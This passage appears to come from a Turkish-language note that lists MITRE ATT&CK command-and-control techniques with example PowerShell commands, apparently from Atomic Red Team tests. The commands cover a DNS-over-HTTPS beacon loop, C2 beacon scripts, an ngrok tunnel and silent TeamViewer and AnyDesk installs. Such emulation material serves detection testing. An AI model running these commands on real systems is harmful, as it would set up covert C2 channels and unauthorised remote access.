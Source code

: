 2. ****Protocol Tunneling (T1572)****
    
    Örnek komut:
    
    ```powershell
    for($i=0; $i -le #{query_volume}; $i++) { (Invoke-WebRequest "#{doh_server}?name=#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}&type=#{query_type}" -UseBasicParsing).Content }
    ```
    
    ```powershell
    Set-Location "PathToAtomicsFolder"
    .\T1572\src\T1572-doh-beacon.ps1 -DohServer #{doh_server} -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
    ```
    
    ```powershell
    Set-Location "PathToAtomicsFolder"
    .\T1572\src\T1572-doh-domain-length.ps1 -DohServer #{doh_server} -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
    ```
    
    ```powershell
    C:\Users\Public\ngrok\ngrok.exe config add-authtoken #{api_token} | Out-Null
    Start-Job -ScriptBlock { C:\Users\Public\ngrok\ngrok.exe tcp #{port_num} } | Out-Null
    Start-Sleep -s 5 
    Stop-Job -Name Job1 | Out-Null
    ```
    
3. ****Non-Standard Port (T1571)****
    
    Örnek komut:
    
    ```powershell
    Test-NetConnection -ComputerName #{domain} -port #{port}
    ```
    
    ```powershell
    echo quit | telnet #{domain} #{port}
    exit 0
    ```
    
4. ****Remote Access Software (T1219)****
    
    Örnek komut:
    
    ```powershell
    Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\TeamViewer_Setup.exe https://download.teamviewer.com/download/TeamViewer_Setup.exe
    $file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
    Start-Process -Wait $file1 /S; 
    Start-Process 'C:\Program Files (x86)\TeamViewer\TeamViewer.exe'
    ```
    
    ```powershell
    Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
    $file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
    Start-Process $file1 /S;
    ```
    